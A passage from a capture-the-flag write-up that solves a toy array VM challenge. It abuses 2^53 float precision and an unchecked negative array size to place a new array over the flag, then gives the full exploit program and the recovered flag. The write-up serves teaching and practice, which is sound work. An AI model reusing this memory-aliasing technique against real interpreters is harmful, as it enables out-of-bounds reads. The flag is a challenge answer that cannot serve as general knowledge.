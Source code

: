 to get such a `B` we make the previous array's size `2^53`.
```
newBacking = lastBacking + lastSize + 1
           = 0 + 2^53 + 1
```

once we can write to the size field of array #1 via its `elem[0]`, we set it to a large negative number. this will cause the next `NEW` to
```
B_next = B_alias + size_overwritten + 1
       = 2^53   + ( -2^53 - x ) + 1
       = -x + 1
```

we pick `x` to be `4`, so that `B_next` = `-3`. this is because if `x` were `2`, `B_next` = `-2 + 1` = `-1`, which places the next array's header at `-1`, writing over the flag.

with `B_next` = `-3`, the header goes to `-3` (safe), and then `elem[1]` sits at `-3 + 1 + 1` = `-1`.

we can use `SUB` to compute negatives:
```ini
size1 = 0 - (2^53 + 4) = -2^53 - 4
```

so the following VM program will spit out the flag:
```nginx
NEW 9007199254740992

NEW 1

INIT 0.0 0
INIT 0.1 9007199254740996

# aliasing bug:
# size1 = 0 - (2^53 + 4) = -9007199254740996
SUB 0.0 0.1 1.0

# B2 = (2^53) + (-2^53 - 4) + 1 = -3
NEW 2

PRINT 2.1
```

the bounds check (```if (!(idx < arrSize)) throw ...```) implemented doesn't help here because this only violates logic, not the physical address. the VM never verifies that size is non‑negative or a safe integer.   

flag: `brunner{I_was_certain_using_arrays_was_a_good_idea}`


